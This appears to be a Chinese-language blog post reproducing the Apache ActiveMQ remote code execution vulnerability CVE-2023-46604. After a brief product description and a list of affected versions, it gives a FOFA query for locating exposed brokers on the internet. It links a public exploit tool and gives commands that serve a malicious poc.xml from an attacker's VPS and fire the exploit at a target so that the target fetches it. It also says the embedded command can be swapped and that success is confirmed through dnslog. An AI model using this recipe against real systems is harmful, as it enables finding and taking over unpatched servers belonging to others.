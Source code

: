 #  Apache ActiveMQ RCE漏洞(CVE-2023-46604)复现   
原创 剑豪321  网络安全学习爱好者   2024-11-10 19:18  
  
## 一、Apache ActiveMQ简介  
  
Apache ActiveMQ是一个开源的、功能强大的消息代理（Message Broker），由 Apache Software Foundation 
所提供。ActiveMQ 支持 Java Message Service（JMS）1.1 和 
2.0规范，提供了一个高性能、简单、灵活和支持多种语言（Java, C, C++, Ruby, Python, Perl等）的消息队列系统  
。  
## 二、漏洞影响版本  
  
Apache ActiveMQ < 5.18.3  
  
Apache ActiveMQ < 5.17.6  
  
Apache ActiveMQ < 5.16.7  
  
Apache ActiveMQ < 5.15.16  
### 三、FOFA语法  
  
```
app="APACHE-ActiveMQ" && port="61616"
```  
  
  
四、漏洞复现  
  
1.漏洞工具下载  
```
https://github.com/sule01u/CVE-2023-46604
```  
  
2.进入目录  
```
cd CVE-2023-46604
```  
  
3.将poc.xml部署到http服务(Deploy on your vps)  
```
python3 -m http.server
```  
  
4.发送poc  
```
python3 CVE-2023-46604.py -i target_ip -p target_port --xml http://vps_ip:8000/poc.xml
```  
  
你可以通过修改poc.xml中的rce命令来做不同的验证5.利用漏洞进行成功dnslog回显，确认漏洞真实存在，dnslog平台地址  
```
http://www.dnslog.cn
```  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
